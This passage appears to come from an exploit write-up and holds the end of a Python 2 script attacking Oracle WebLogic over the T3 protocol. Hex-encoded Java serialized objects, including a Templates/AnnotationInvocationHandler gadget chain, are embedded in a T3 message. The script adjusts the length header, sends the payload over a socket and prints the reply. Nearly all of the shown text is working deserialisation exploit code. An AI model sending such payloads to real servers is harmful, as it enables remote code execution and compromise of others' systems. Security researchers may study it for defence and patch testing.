x00\x52\x00\xa3\x00\x48\x00\x47\x00\x05\x00\x0c\x00\xea\x00\x49\x00\x4a\x00\x00\x00\x22\x00\xd4\x00\x4b\x00\x41\x00\x01\x00\x42\x00\xb4\x00\x4c\x00\x4d\x00\x02\x00\x4b\x00\xab\x00\x4e\x00\x4d\x00\x03\x00\x4f\x00\xa7\x00\x4f\x00\x47\x00\x04\x00\x50\x00\x00\x00\x1d\x00\x03\xff\x00\x52\x00\x06\x07\x00\x51\x07\x00\x52\x07\x00\x0e\x07\x00\x0e\x01\x01\x00\x00\xfb\x00\x9c\xfa\x00\x05\x00\x34\x00\x00\x00\x04\x00\x01\x00\x23\x00\x08\x00\x53\x00\x28\x00\x01\x00\x29\x00\x00\x00\x77\x00\x02\x00\x01\x00\x00\x00\x16\xb2\x00\x0b\x12\x20\xb6\x00\x21\xb8\x00\x22\xa7\x00\x08\x4b\x2a\xb6\x00\x24\x01\x4b\xb1\x00\x01\x00\x00\x00\x0b\x00\x0e\x00\x23\x00\x03\x00\x2a\x00\x00\x00\x1e\x00\x07\x00\x00\x00\x19\x00\x08\x00\x1a\x00\x0b\x00\x1d\x00\x0e\x00\x1b\x00\x0f\x00\x1c\x00\x13\x00\x1f\x00\x15\x00\x20\x00\x2b\x00\x00\x00\x16\x00\x02\x00\x0f\x00\x04\x00\x54\x00\x55\x00\x00\x00\x15\x00\x00\x00\x56\x00\x41\x00\x00\x00\x50\x00\x00\x00\x07\x00\x02\x4e\x07\x00\x57\x04\x00\x01\x00\x58\x00\x00\x00\x02\x00\x59\x70\x74\x00\x04\x50\x77\x6e\x72\x70\x77\x01\x00\x78\x73\x7d\x00\x00\x00\x01\x00\x1d\x6a\x61\x76\x61\x78\x2e\x78\x6d\x6c\x2e\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x78\x72\x00\x17\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x50\x72\x6f\x78\x79\xe1\x27\xda\x20\xcc\x10\x43\xcb\x02\x00\x01\x4c\x00\x01\x68\x74\x00\x25\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x78\x70\x73\x72\x00\x32\x73\x75\x6e\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x61\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x2e\x41\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x55\xca\xf5\x0f\x15\xcb\x7e\xa5\x02\x00\x02\x4c\x00\x0c\x6d\x65\x6d\x62\x65\x72\x56\x61\x6c\x75\x65\x73\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x4c\x00\x04\x74\x79\x70\x65\x74\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x74\x00\x08\x66\x35\x61\x35\x61\x36\x30\x38\x71\x00\x7e\x00\x09\x78\x76\x72\x00\x1d\x6a\x61\x76\x61\x78\x2e\x78\x6d\x6c\x2e\x74\x72\x61\x6e\x73\x66\x6f\x72\x6d\x2e\x54\x65\x6d\x70\x6c\x61\x74\x65\x73\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x78\x73\x7d\x00\x00\x00\x01\x00\x14\x6a\x61\x76\x61\x2e\x69\x6f\x2e\x53\x65\x72\x69\x61\x6c\x69\x7a\x61\x62\x6c\x65\x78\x72\x00\x17\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x50\x72\x6f\x78\x79\xe1\x27\xda\x20\xcc\x10\x43\xcb\x02\x00\x01\x4c\x00\x01\x68\x74\x00\x25\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x72\x65\x66\x6c\x65\x63\x74\x2f\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x3b\x78\x70\x73\x72\x00\x32\x73\x75\x6e\x2e\x72\x65\x66\x6c\x65\x63\x74\x2e\x61\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x2e\x41\x6e\x6e\x6f\x74\x61\x74\x69\x6f\x6e\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x55\xca\xf5\x0f\x15\xcb\x7e\xa5\x02\x00\x02\x4c\x00\x0c\x6d\x65\x6d\x62\x65\x72\x56\x61\x6c\x75\x65\x73\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x4c\x00\x04\x74\x79\x70\x65\x74\x00\x11\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x74\x00\x08\x66\x35\x61\x35\x61\x36\x30\x38\x71\x00\x7e\x00\x05\x78\x76\x71\x00\x7e\x00\x03\x78'<br><br>payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'<br>payload=payload+payloadObj<br>payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'<br><br># adjust header for appropriate message length<br>payload=struct.pack('>I',len(payload)) + payload[4:]<br>#print payload<br>print '[+] Sending payload...'<br>sock.send(payload)<br>time.sleep(1)<br>data = sock.recv(1024)<br>print  'received "%s"' % data<br>print 'send sucess'<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094759.png-water_print](assets/1699411396-84fa05f0c0c5202e84b5b1efff4e9595.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210419094759.png-water_print")
